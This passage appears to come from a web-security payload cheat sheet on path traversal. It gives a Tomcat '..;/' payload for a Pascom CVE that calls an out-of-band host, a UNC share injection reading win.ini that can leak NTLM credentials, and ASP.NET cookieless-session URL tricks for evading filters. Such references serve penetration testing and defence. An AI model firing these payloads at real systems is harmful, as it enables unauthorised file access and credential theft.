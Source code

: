 ```powershell
..;/
```

**Example**: Pascom Cloud Phone System CVE-2021-45967

A configuration error between NGINX and a backend Tomcat server leads to a path traversal in the Tomcat server, exposing unintended endpoints.

```js
{{BaseURL}}/services/pluginscript/..;/..;/..;/getFavicon?host={{interactsh-url}}
```


## Exploit

These exploits affect mechanism linked to specific technologies.


### UNC Share

A UNC (Universal Naming Convention) share is a standard format used to specify the location of resources, such as shared files, directories, or devices, on a network in a platform-independent manner. It is commonly used in Windows environments but is also supported by other operating systems.

An attacker can inject a **Windows** UNC share (`\\UNC\share\name`) into a software system to potentially redirect access to an unintended location or arbitrary file.

```powershell
\\localhost\c$\windows\win.ini
```

Also the machine might also authenticate on this remote share, thus sending an NTLM exchange.


### ASP NET Cookieless

When cookieless session state is enabled. Instead of relying on a cookie to identify the session, ASP.NET modifies the URL by embedding the Session ID directly into it.

For example, a typical URL might be transformed from: `http://example.com/page.aspx` to something like: `http://example.com/(S(lit3py55t21z5v55vlm25s55))/page.aspx`. The value within `(S(...))` is the Session ID. 


| .NET Version   | URI                        |
| -------------- | -------------------------- |
| V1.0, V1.1     | /(XXXXXXXX)/               |
| V2.0+          | /(S(XXXXXXXX))/            |
| V2.0+          | /(A(XXXXXXXX)F(YYYYYYYY))/ |
| V2.0+          | ...                        |


We can use this behavior to bypass filtered URLs.

* If your application is in the main folder
    ```ps1
    /(S(X))/
    /(Y(Z))/
    /(G(AAA-BBB)D(CCC=DDD)E(0-1))/
    /(S(X))/admin/(S(X))/main.aspx
    /(S(x))/b/(S(x))in/Navigator.dll
    ```
